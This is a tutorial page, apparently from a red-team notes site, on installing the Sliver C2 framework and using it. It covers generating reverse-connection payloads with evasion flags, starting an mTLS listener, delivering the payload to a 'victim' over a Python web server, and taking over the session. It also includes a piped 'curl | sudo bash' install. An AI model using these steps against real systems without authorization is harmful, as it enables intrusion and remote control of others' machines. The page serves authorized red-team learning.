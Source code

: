 # Sliver

[Sliver](https://github.com/BishopFox/sliver) is an open source projected created and maintained by [BishopFox](https://www.bishopfox.com/) as an open source multi-platform adversary emulation and red team tool. Sliver facilitates the generations of reverse connection payloads as EXE, DLL, or Shellcode.

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/Getting-Started)

## Installing

It has binaries for Windows, Linux, MacOS allowing you to deploy Sliver C2 infrastructure on any system.

### Pre-reqs

```bash
sudo apt install -y mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

## Running

This can be downloaded directly from the [Sliver Repo](https://github.com/BishopFox/sliver/releases) using wget or directly.

### Install on system

```bash
curl https://sliver.sh/install | sudo bash
```

Run it

```bash
sliver
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

### Standalone release

```bash
wget https://github.com/BishopFox/sliver/releases/download/v1.4.14/sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Unzip the file

```bash
unzip sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Make it executable

```bash
chmod +x sliver-server
```

run it

```bash
sudo ./sliver-server
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Usage

### Making a payload

to generate at payload you must know your IP address(external if this is hosted externally). This will generate a randomly named executable file file that can be delivered to targets in a variety of ways. The flags `-m` and `-e` flags used above represent Natural-TLS connection to use to connect back on and evasion respectively. The IP address entered is the IP address of your Sliver server.

```bash
generate -m (attacker ip) -e
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The executable file will be in the folder where sliver was run.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Making .dll payload

```bash
generate —mtls (attacker ip) —format shared —skip-symbols
```

### Starting The MTLS Listener

The listener must be started before the delivery and exectuion of the payload on a target system. This listener will display all active connectsions from target systems to your C2 server.

```bash
mtls
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploit

Get the executable onto the victim. I'll do this via a quick python webserver.

```bash
python3 -m http.server 8008
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When the server is being accessed and a file is being downloaded

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the victim machine go to the webserver and click on the file you want to download

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once it is executed, we should see the connection from the sliver terminal.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can also check on active sessions or alive sessions with `sessions`

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

Connect to the session

```bash
sessions -i (session id)
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Run whatever commands you may need/want:

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>
